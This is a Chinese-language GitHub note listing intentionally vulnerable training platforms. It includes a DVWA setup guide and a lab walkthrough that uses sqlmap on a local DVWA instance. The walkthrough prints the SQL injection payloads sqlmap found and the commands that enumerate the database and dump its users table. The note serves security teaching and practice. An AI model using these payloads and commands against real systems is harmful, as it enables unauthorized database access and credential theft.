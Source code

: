 [LeslieZhu](https://github.com/LeslieZhu) on 2015-12-18:


# DVWA : Damn Vulnerable Web Application


- 官网: http://www.dvwa.co.uk/
- GitHub: https://github.com/RandomStorm/DVWA

用PHP+Mysql编写的一套用于常规WEB漏洞教学和检测的WEB脆弱性测试程序。包含了SQL注入、XSS、盲注等常见的一些安全漏洞。

## 安装

```
$ wget https://github.com/RandomStorm/DVWA/archive/v1.9.zip
$ unzip v1.9.zip
$ sudo cp -rp DVWA-1.9 /var/www/html/dvwa
```

安装必要的软件包:

```
$ sudo apt-get -y install apache2 mysql-server php5 php5-mysql php5-gd  spawn-fcgi php5-cgi
```

## 配置nginx+php

```
$ sudo vim /etc/nginx/sites-available/default

server_name localhost;

# Add index.php to the list if you are using PHP
index index.php index.html index.htm index.nginx-debian.html;

# pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
#
location ~ \.php$ {
        include snippets/fastcgi-php.conf;

        # With php5-cgi alone:
        fastcgi_pass 127.0.0.1:9000;
        # With php5-fpm:
        #fastcgi_pass unix:/var/run/php5-fpm.sock;
}
```

## 启动

启动nginx+php:

```
$ sudo spawn-fcgi -a 127.0.0.1 -p 9000 -C 10 -u www-data -f /usr/bin/php5-cgi
$ sudo /etc/init.d/nginx start
```

访问 `localhost/dvwa/setup.php`进行设置。

## 配置MySQL

```
$ sudo /etc/init.d/mysql start
```

`dvwa/setup.php`创建数据库的时候可能报错，则需要将`./config/config.inc.php`里面的数据库密码设置为空。

创建数据库后，登陆DVWA，用户/密码默认是`admin/password`

## 用sqlmap.py来测试SQL注入

先在`DVWA Security`将安全级别调至Low。

然后，在`SQL Injection`部分，获取Cookie后，开始寻找注入点.


### 找到注入点

```

$ export target="http://192.168.1.108/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
$ python sqlmap.py -u $target --cookie="security=low; security=impossible; PHPSESSID=0qrratc24em680l0bucocti4v6"

sqlmap identified the following injection point(s) with a total of 3814 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 3459=3459 AND 'CsJK'='CsJK&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' AND (SELECT 2212 FROM(SELECT COUNT(*),CONCAT(0x716a7a7171,(SELECT (ELT(2212=2212,1))),0x7176627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'kuZo'='kuZo&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))zYYB) AND 'XUNc'='XUNc&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x716a7a7171,0x70695670544345415271684e6f4c6975425959654447454149744f47707261797a7245716462547a,0x7176627171),NULL-- -&Submit=Submit
```

### SQL注入并获取其它信息

```
$ python sqlmap.py -u $target --cookie="security=low; security=impossible; PHPSESSID=0qrratc24em680l0bucocti4v6" --current-db

current database:    'dvwa'

$ python sqlmap.py -u $target --cookie="security=low; security=impossible; PHPSESSID=0qrratc24em680l0bucocti4v6" --current-db --tables -Ddvwa

Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

$ python sqlmap.py -u $target --cookie="security=low; security=impossible; PHPSESSID=0qrratc24em680l0bucocti4v6" -T guestbook --columns

Database: dvwa
Table: guestbook
[3 columns]
+------------+----------------------+
| Column     | Type                 |
+------------+----------------------+
| comment    | varchar(300)         |
| comment_id | smallint(5) unsigned |
| name       | varchar(100)         |
+------------+----------------------+

$ python sqlmap.py -u $target --cookie="security=low; security=impossible; PHPSESSID=0qrratc24em680l0bucocti4v6" -T users --dump

Database: dvwa
Table: users
[5 entries]
.....
```


# DVWA-WooYun

- 在线版本: http://dvwa.mujj.cn/login.php
- 下载: https://sourceforge.net/projects/dvwa-wooyun/

一个基于DVWA的PHP+Mysql漏洞模拟练习环境，通过将乌云主站上的有趣漏洞报告建模，以插件形式复现给使用该软件的帽子们，可以让乌云帽子们获得读报告体验不到的真实感，在实践的过程中可以无缝隙地深入理解漏洞的原理及利用方式


# Metasploitable

http://downloads.metasploit.com/data/metasploitable/metasploitable-linux-2.0.0.zip


# WebGoat

由著名的OWASP负责维护的一个漏洞百出的J2EE Web应用程序，这些漏洞并非程序中的bug，而是故意设计用来讲授Web应用程序安全课程的。这个应用程序提供了一个逼真的教学环境，为用户完成课程提供了有关的线索.

http://code.google.com/p/webgoat

# ZVulDrill

Web漏洞演练平台

https://github.com/710leo/ZVulDrill

# XCTF_OJ(X Capture The Flag Online Judge)



http://oj.xctf.org.cn/

XCTF-OJ （X Capture The Flag Online Judge）是由XCTF组委会组织开发并面向XCTF联赛参赛者提供的网络安全技术对抗赛练习平台。

XCTF-OJ平台将汇集国内外CTF网络安全竞赛的真题题库，并支持对部分可获取在线题目交互环境的重现恢复，XCTF联赛后续赛事在赛后也会把赛题离线文件和在线交互环境汇总至XCTF-OJ平台，形成目前全球CTF社区唯一一个提供赛题重现复盘练习环境的站点资源。




# 资料

- [网络攻防平台有哪些？](https://www.zhihu.com/question/24740239)
- [十大渗透测试演练系统](http://www.freebuf.com/tools/4708.html)
- [DVWA-WooYun（乌云靶场）开源漏洞模拟项目 测试版公布！](http://zone.wooyun.org/content/14460)
- [SQL注入之DVWA平台测试mysql注入](http://hackersec.blog.51cto.com/622295/1251632)
- [DVWA之从SQL注入到写入webshell](http://www.nxadmin.com/penetration/1141.html)
- [kali 配置dvwa](http://www.lxway.com/824645002.htm)
- [Ubuntu下搭建PHP+Nginx环境](http://blog.csdn.net/ajaxuser/article/details/6570933)
- [ 使用DVWA+sqlmap体验sql注入 ](http://blog.chinaunix.net/uid-11582448-id-4432211.html)


